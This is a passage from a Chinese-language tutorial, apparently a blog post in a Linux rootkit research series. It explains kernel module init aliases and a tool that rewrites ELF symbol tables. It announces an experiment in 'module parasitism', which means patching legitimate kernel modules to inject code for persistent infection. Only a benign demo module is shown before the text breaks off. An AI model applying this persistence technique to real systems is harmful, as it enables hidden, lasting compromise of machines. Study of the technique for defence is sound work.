 看一下源码`include/linux/module.h`:

{% highlight c %}
/* Each module must use one module_init(). */
#define module_init(initfn)					\
	static inline initcall_t __inittest(void)		\
	{ return initfn; }					\
	int init_module(void) __attribute__((alias(#initfn)));

/* This is only required if you want to be unloadable. */
#define module_exit(exitfn)					\
	static inline exitcall_t __exittest(void)		\
	{ return exitfn; }					\
	void cleanup_module(void) __attribute__((alias(#exitfn)));
{% endhighlight %}

上面的`alias`是 GCC 的拓展功能，给函数起别名并关联起来。所以最终被使用的还是`init_module/cleanup_module`这两个名字。

**预备二**

我们需要一个能够修改`ELF`文件符号表及链接的小工具`setsym`，它是由 novice 师傅根据`ELF`文件格式制作的。源码在[这里](https://github.com/NoviceLive/research-rootkit/tree/master/3-persistence/elf)

编译安装：

```
make
sudo make install
```

用法：

```
# 查看某个符号的值：
setsym <module_path> <symbol_name>
# 修改某个符号的值：
setsym <module_path> <symbol_name> <symbol_value>
```

**下面开始 dirty your hand !!**

我们的实验分为两步走：

1. 在同一模块中进行符号表修改
2. 模块寄生：修改合法内核模块符号表并注入带代码实现持久感染

**第一步**

首先编译生成一个简单模块：

{% highlight c %}
// noinj.c
static int lkm_init(void)
{
    printk("noinj: module loaded\n");
    return 0;
}
static void lkm_exit(void)
{
    printk("noinj: module removed\n");
    return;
}

module_init(lkm_init);
module_exit(lkm_exit);

int fake_init(void)
{
    lkm_init();
    printk("^_^ noinj init invoked\n");
    return 0;
}